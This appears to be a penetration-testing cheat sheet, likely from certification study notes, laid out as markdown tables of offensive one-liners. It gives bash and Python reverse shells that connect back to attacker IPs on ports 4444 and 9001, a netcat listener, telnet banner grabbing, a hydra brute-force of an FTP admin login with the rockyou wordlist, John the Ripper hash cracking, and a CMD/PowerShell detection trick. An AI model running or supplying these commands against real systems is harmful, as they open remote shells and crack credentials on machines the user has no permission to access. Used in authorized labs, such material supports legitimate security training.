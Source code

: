 | **Reverse shells** | **Description** |
| ---- | ---- |
| `bash -i >& /dev/tcp/192.168.119.3/4444 0>&1` | Common reverse shell |
| `bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"` | If prior shell doesn't work due to Bourne Shell |
| `python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("192.168.45.190",9001));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'` | Python reverse shell |
|  |  |

| **Netcat listener** | **Description** |
| ---- | ---- |
| `nc -nvlp 9001` | In port 9001 |

| **Banner grabbing** | **Description** |
| ---- | ---- |
| `telnet 10.10.10.10 22` | For ip 10.10.10.10 in port 22 |

| **Brute forcing** | **Description** |
| ---- | ---- |
| `hydra -l admin -P /usr/share/wordlists/rockyou.txt -e nsr -f ftp://192.168.222.46` | FTP |

| **Hash cracking** | **Description** |
| ---- | ---- |
| `john offsec.hash -wordlist=/usr/share/wordlists/rockyou.txt` | John The Ripper with wordlist |

Windows - Check current shell:
```shell
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```